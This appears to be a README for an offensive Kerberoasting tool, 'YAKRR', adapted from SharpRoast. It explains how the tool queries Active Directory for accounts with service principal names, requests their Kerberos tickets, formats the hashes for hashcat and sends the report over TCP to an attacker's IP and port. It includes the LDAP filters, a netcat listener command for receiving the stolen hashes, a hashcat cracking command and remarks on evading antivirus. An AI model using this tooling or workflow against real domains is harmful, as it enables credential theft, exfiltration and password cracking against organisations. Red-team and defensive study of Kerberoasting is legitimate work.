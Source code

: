 ﻿### YAKRR
#### Yes, Another KerbeRoast Recipe
Based on https://github.com/GhostPack/SharpRoast, even if deprecated it works quite well.
I slighty modified the code creating a class **DCEnumNC.KBRoast** with only one public method
*RoastNow* that accept as arguments an array of strings, exactly the same interface of the original
project. See the comment on the code to explore the parameters list.
I have also coded a *helper* class **DCEnumNC.EnumDC** with (at the moment) only 
one public static method to simply get the DC name server and the IP.<br>
The console application, that actually wraps the calls to the class methods, accept 3 parameters:
1. The attacker IP used to send the report
2. The port of the attacker IP
3. The command parameter *forwarded* to the RoastNow method

How does it works?
1. First the program check if the machine has joined a domain using the method **EnumDC.GetDCInfo()**
<br>If an error occurs probably the machine is not part of a domain, otherwise the Domain controller
name server and IP are returned as string.
2. Then the method **KBRoast.RoastNow(args)** is called passing the second argument as passed to 
the program
```
string[] KBargs = { args[2] };
sb.Append(KBRoast.RoastNow(KBargs)); 
```
3. If the argument passed is *all* the LDAP query will try to retrive all the users, 
except krbtgt<sup>1</sup> obects as follows:
```
(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt))
```
4. If a username is provided, e.g. zinz, the query will be the follows:
```
(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=zinz))
```

The query retrive all the user objects <sup>2</sup>, having the SPN attribute set.

5. For each found user the private method **GetDomainSPNTicket** is called and the program issue a
Kerberos token request, if succeed the hash is returned in a hashcat format, ready to be parsed using
the mode **13100  Kerberos 5 TGS-REP etype 23**. The encryption (eType) expected is 23 *rc4-hmac*<sup>3</sup>
and in case of error parsing the cipher text the program will return the *TicketHexStream* that we
could try to parse using the powershell function *Get-KerberoastHashFromAPReq* from the following
script: https://github.com/leechristensen/Random/blob/master/PowerShellScripts/Get-KerberoastingHash.ps1 
<br>The program creates a report having the following format:
```
DC name: DC01.zinz.local, IP: 192.168.1.100
SamAccountName         : hack
DistinguishedName      : CN=Hack Her,CN=Users,DC=zinz,DC=local
ServicePrincipalName   : http/zinz.org
Hash                   : $krb5tgs$23$*$zinz.local$http/zinz.org*$51A8E402265B9E3C7FFCE1DFC3134234$60870EA
                         3822A8AC2CBDA715E7ABEC906954D1B9849040AC1CE29B0BCCDE01ED042AEB0DED04F70F25E1BD29
                         6E1FF304AE6E24FAB92C67566BB5005A22F21F27268B1EC3B5F6F0F573B2EE8BDBC0A53716420E54
                         0E2FD0F439BBA985D5D1746749A0DFBF78955FD038E8F6FBE4F5C31B23FFA6FF625695B184EFCFB1
                         116F065514B479A5830196029344152414D14771BD2DD1AAB698DA998BD00AD66D4911B8466DEE07
                         A0DE3515A98FCBC9F4BF4CD80CDFE2AA6F2C71A463CA1F0FD9C7EE3B22CB339C3A7ED7260E07CA02
                         5F3E2DE9DE2BDDE354744B88AC075D4ED3F533B2F19FAEC645DCCECF5A03B0985BD55423D6DB2142
                         7507AB166A8B3BA6AFF603E12296A8FCFD644DD41AF70EB7CFBA8B0FE2E55A462BEB43C4759490C0
                         AA92CE10E2DECDD9A9A7839E4147ADE8D613C30250075E26C2FD0B12C2CD6B5A4AF324EC051BC1A6
                         D1822554EAEC5E4518BEB7925673585BCA19A554C1EAD351D6BA9E42CA98510CA190B2539F6B29EF
                         A9C28B7DAFFDE7B32227058179A6830F461365EB9FE53E0787686085E0A321AA3504B904F6D58FB9
                         08D64094A95115394111B2AD474E0FF9A77C62A07949D611051F7F1EBE4115763BE21104233CAE0D
                         F2E2C6E27E11C8B473CE514ECED538B98ADFA4FB77527BAC1E6AF2300FFCA1C56E3DC3C3D95FC2AE
                         1508D7C106C29414979D2E80C677B82EDD0FA91F73DF6D4D4EEBFE30A67DB58D99CFCF05AC382951
                         D45DC4510D14B307D869465F90FEBA2E3254396B4735A5D81DDA6D6F3C04F078DFEF7F40CF8FD3FE
                         D1C2466DEF72AEBD8F27AEE44375FD42E95627902887D427B28EAE7901C8FBD8051A0B758F39E457
                         4BCE0CD6E8B85EF30617D597C153F0163EED64FDAE91CF0A9F77E3BD813D389499AB2C0A5C4EB6B8
                         20AFB6F20929E95CCCAEB775EC6A5316BB21C3209A7065A8D314D9BA2BCD990D11EE47822B24DD1D
                         2DD8B8CF36EC2D9F32C26D9F54180A6F7B98FAEB3CE488766F12A60988C2B64D9A93E627A5D58E69
                         F0C3E38A6E80F0A9D8B03FD415F863C8743D082F3124A4C4B1AE623D21D65CCAAA9457ADC3667CB3
                         DFD63E3D36C9D2EE89A13D9C4996694D623B373A1A42C5E5B030F471B18EE26DF7BC634712D2DC1F
                         5D1F3D852C54835E7024DF57C2A4698A23EE7BBD903DF577604D872A40341FC922B7D841D5694974
                         417E0CFF812AD9480F96227839D33CCD43AA791D42083BA36709680CE1E29AD9E106167C40913924
                         CBE6FFBB34C5DFDB81F9B53DA8C5DA5A28F809A3B192A3178D6FBDB0ACC3305D421B7C0FBB168222
                         0CCBC20C798C9B129CDBB87950D19BB44C42E3DA8C54AD9CFDCB8A07720618617AEAD750398258F4
                         5DAD90CAE1ED1111095AB6840BB0BDB3C4C1DC0DBB861F49421D251BCA5AD294EE3969B4BB194A43
                         371BD1C61D9
...
```

The report is finally sent to the attacker using a network TCP stream. On the attacker we can save
the stream to a text file using the following command:

    nc -lvp <port> > kbrep.txt
    
As said the IP and the port of the attacker are passed as arguments 1 and 2 to the program.

6. Finally we can try to reverse the hash locally using hashcat<br>
![Screenshot](hashcatKerb.png)
Here I have found 2 passwords using the rockyou wordlist, please note that the second one *Toor1234* 
has been added on the wordlist and it's not present on the default rockyou file. The command used was:
```
hashcat.exe -a 0 -m 13100 -w 3 --status --status-timer=60 --potfile-disable -p : -O --hwmon-temp-abort=85 -r rules\best64.rule kerbTicketHash.txt wordlists\rockyou.txt
```
#### About AV bypass
Using this technique I was able to bypass some well known AV solutions but not Windows defender! 
To low the fingerprint on the victim we could try to get back the encoded requested ticket without
parsing to the hashcat format, doing this operation locally.

---
<small><sup>1</sup> The KRBTGT account is a local default account that acts as a service account for 
the Key Distribution Center (KDC) service. More info at: https://adsecurity.org/?p=483
<br><sup>2</sup> The filter (sAMAccountType=805306368) for user objects is more efficient than 
the usual filters<br>
<sup>3</sup> https://www.iana.org/assignments/kerberos-parameters/kerberos-parameters.xhtml#kerberos-parameters-1 
</small>


